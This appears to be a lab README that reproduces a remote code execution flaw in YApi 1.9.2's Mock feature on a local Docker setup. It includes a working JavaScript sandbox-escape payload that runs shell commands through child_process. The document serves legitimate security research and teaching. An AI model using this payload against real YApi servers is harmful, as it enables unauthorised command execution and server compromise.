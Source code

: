 # YApi Registration and Mock Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

YApi is a API management tool developed by Node.JS. If registration of the YApi server is enabled, attackers will be able to execute arbitrary Javascript code in the Mock page.

References:

- <https://paper.seebug.org/1639/>
- <https://www.freebuf.com/vuls/279967.html>

## Vulnerability Environment

Execute following command to start a YApi server 1.9.2:

```
docker-compose up -d
```

After the server is started, browse the `http://localhost:3000` to see the index page of the YApi.

## Vulnerability Reproduce

Register a normal user then create a project and an interface:

![](1.png)

![](2.png)

There is a "Mock Tab" that you can input JavaScript code, put the evil code into textarea:

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;uname -a;pwd").toString()
```

![](3.png)

Then, go back to the preview tab and see the Mock URL:

![](4.png)

Open that URL, Mock script is executed and you can see the output:

![](5.png)
